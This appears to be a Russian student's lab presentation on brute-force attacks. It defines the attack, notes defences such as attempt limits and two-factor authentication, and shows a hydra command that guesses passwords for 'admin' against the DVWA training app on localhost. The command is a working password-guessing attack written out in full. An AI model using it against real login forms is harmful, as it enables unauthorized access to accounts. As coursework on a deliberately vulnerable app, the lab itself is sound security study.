


---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Абдуллахи Шугофа\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 15 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---

# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

{ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

{ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.